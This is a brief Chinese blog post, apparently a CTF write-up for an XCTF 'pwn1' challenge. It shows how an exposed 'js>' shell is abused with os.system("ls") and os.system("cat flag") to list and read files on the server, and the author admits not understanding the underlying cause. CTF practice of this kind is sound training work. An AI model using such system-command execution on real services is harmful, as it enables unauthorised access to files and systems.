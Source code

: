 ```yaml
---
layout: post
title:  pwn1
date:   2020-09-29 00:01:01 +0300
image:  2020-09-29-mountain.jpg
tags:   [ctf,pwn,XCTF]
---
```


这道题就离谱

交互界面

```assembly
js>
```

输入os.system("ls")

```assembly
bin
dev
flag
js
lib
lib32
lib64
libnspr4.so
libplc4.so
libplds4.so
run.sh
```

os.system("cat flag")得到flag

具体什么原理还不是很清楚。。。。。。。。。。。。。